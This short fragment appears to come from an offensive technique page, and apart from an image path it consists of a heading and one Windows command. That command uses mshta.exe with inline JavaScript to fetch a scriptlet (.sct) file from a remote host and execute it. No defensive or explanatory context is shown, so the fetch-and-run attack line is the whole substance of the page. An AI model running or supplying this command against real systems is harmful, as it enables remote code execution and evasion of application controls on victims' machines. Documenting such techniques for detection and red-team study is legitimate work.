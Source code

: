 Invoking the scriptlet file hosted remotely
```
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/file.sct")).Exec();close();
```
